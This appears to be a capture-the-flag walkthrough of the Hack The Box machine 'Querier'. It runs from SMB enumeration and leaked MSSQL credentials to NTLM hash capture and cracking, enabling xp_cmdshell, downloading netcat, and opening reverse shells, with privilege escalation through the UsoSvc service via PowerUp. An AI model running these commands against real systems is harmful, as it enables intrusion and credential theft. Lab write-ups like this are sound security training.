


  

***

# External Recon
I started with my usual "nmap" scan:


$ nmap -sC -sV -oN initial 10.10.10.125

135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server  14.00.1000.00
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: QUERIER
|   DNS_Domain_Name: HTB.LOCAL
|   DNS_Computer_Name: QUERIER.HTB.LOCAL
|   DNS_Tree_Name: HTB.LOCAL
|_  Product_Version: 10.0.17763


I reduced the output to the interesting pieces.
As we found some "DNS-Names" I put them into my "/etc/hosts" file.


$nano /etc/hosts
10.10.10.125    querier.htb.local querier


After my initial scan, I proceeded with a script-scan.
Especialy when I see "port 445" open. "Port 445" is used for "SMB" or filesharing on Windows.

But this time the "nmap" scripts failed to identify anything usefull on this port. A deadend?

As I couldn't find anything else on the box, I tried another tool to check the "SMB-Service": "Metasploit".


$ msfconsole

msf5 use auxiliary/scanner/smb/smb_enumshares
msf5 auxiliary(scanner/smb/smb_enumshares) > set RHOSTS 10.10.10.125
msf5 run

[+] 10.10.10.125:445      - ADMIN$ - (DS) Remote Admin                                      
[+] 10.10.10.125:445      - C$ - (DS) Default share                                         
[+] 10.10.10.125:445      - IPC$ - (I) Remote IPC                                           
[+] 10.10.10.125:445      - Reports - (DS)


Note to self: It's always a good idea to check and recheck your services with different tools. ;)

[[Top]](#top)

# Explore

I used the the file explorer to connect as an anonymous user.

The file has a ".xlsm" extension. Which means it should have a macro inside.
Which turned out to be true once I opened the file.

Let's investigate the macro.

Here are the important "SQL-Connection" bits:


Trusted_Connection=no;
Database=volume;
Uid=reporting;
Pwd=PcwTWTHRwryjc$c6


[[Top]](#top)

# Weaponize

Obviously I wanted to connect to the database now. For tasks like this I use the "impacket" toolset.

`./mssqlclient.py -windows-auth reporting@querier`

When you have access to a "Microsoft-SQL" Server, always check for the `xp_cmdshell` option to run commands on the
operating system.


SQL> xp_cmdshell cmd.exe
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.


No dice. Permission denied.

But, of cause there's a way around that. By pure chance I watched a video of ippsec who had the very same problem in a box earlier that week.



So I went back and checked what he did.

`xp_dirtree` to the rescue.

With `xp_dirtree` I can list folders and shares. And as Windows loves to do "single-sign-on" for the user with it's "NTLM" hash
I can try to intercept it.

In order to grab the "NTLM-Hash" I need the tool named "responder" in one terminal and run the `xp_dirtree` command for the share created
by "responder" in another terminal.


-----------Terminal 1--------------
$ responder -I tun0 -wrfv

-----------Terminal 2--------------
SQL> exec xp_dirtree '\\10.10.14.4\files'


The resulting "NTLM-Hash" is:

"hashcat" cracked the "NTLM-Hash" for me in mere seconds:


$ ./hashcat -m 5600 ntlm-hash.txt --force
> Password: corporate568


[[Top]](#top)

# Exploit
I used the new credentials again with "impacket" to login:

`./mssqlclient.py -windows-auth querier/mssql-svc:corporate568@querier`

If `xp_cmdshell` will work now?


SQL> xp_cmdshell cmd.exe
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because
this component is turned off as part of the security configuration for this server.
A system administrator can enable the use of 'xp_cmdshell' by using 'sp_configure'.
For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.


Almost. I seem to have to propper permissions now. But I need to enable it.


SQL> EXEC sp_configure 'show advanced options', 1
SQL> RECONFIGURE
SQL> EXEC sp_configure 'xp_cmdshell', 1
SQL> RECONFIGURE


This looks promissing. My next goal should be to get a propper "reverse-shell" and some tools for the next step on the box.
I used "impacket" again to give me a "SMB" Server which can hold my files. I put "nc64.exe" and "powerup.ps1" in that share.

`python /opt/impacket/examples/smbserver.py -smb2support files $(pwd)`

I downloaded them from my box to the target using a <a href="https://lolbas-project.github.io/" target="_blank">LOLBIN</a>.


SQL> xp_cmdshell esentutl.exe /y \\10.10.14.4\files\nc64.exe /d C:\Users\mssql-svc\nc64.exe /o
SQL> xp_cmdshell esentutl.exe /y \\10.10.14.4\files\powerup.ps1 /d C:\Users\mssql-svc\powerup.ps1 /o


Now the "reverse-shell":


-----------Terminal 1--------------
$ nc -lvnp 9001

-----------Terminal 2--------------
SQL> xp_cmdshell C:\Users\mssql-svc\nc64.exe -e cmd 10.10.14.4 9001


[[Top]](#top)

# Privilege Escalation
First, I've got the `user.txt`.

This time, I haven't spent time in a dedicated "internal-recon" phase.
It was a mixed bag due to the tools I used. The mentioned "powerup.ps1" script does technicaly both:
Recon and Escalation.

The module was loaded into "powershell" like so:


C:\Users\mssql-svc> powershell
PS C:\Users\mssql-svc> import-module ./powerup.ps1
PS C:\Users\mssql-svc> invoke-allchecks


I spent quite some time trying to login somehow with the password in the "GPP". But I wasn't able to make it work.
While doing this writeup however I realized - the password should have worked. Don't know what I did wrong.

But there's more than one way to victory:
I've seen the vulnerable service but ignored it for a hopefully quick win with the password.
After that failed I gave it a shot.

[[Top]](#top)

# Root Flag
I used "powerup.ps1" again, to exploit the "UsoSvr" service.


-----------Terminal 1--------------
$ nc -lvnp 9002

-----------Terminal 2--------------
PS C:\Users\mssql-svc> Set-ServiceBinaryPath -Name UsoSvc -Path 'C:\Users\mssql-svc\nc64.exe -e cmd 10.10.14.4 9002'
PS C:\Users\mssql-svc> restart-service UsoSvc


So what happened here? First, let me cite two things of the "powerup" authors regarding services and improper permissions:

> [1]
> This misconfiguration happens when the executable associated with a service has improper permissions, allowing other users to
> write to the .exe. Since these services run as SYSTEM, if we replace the exe with our own, we can escalate quickly.
> 
> [2]
> Takes a service name [...] that the current user has configuration modification rights on and executes
> a series of automated actions to execute commands as SYSTEM.

And this box is no exception. As far as I understand it, the service is vulnerable to the 2nd variant.

Mission Accomplished! :)

[[Top]](#top)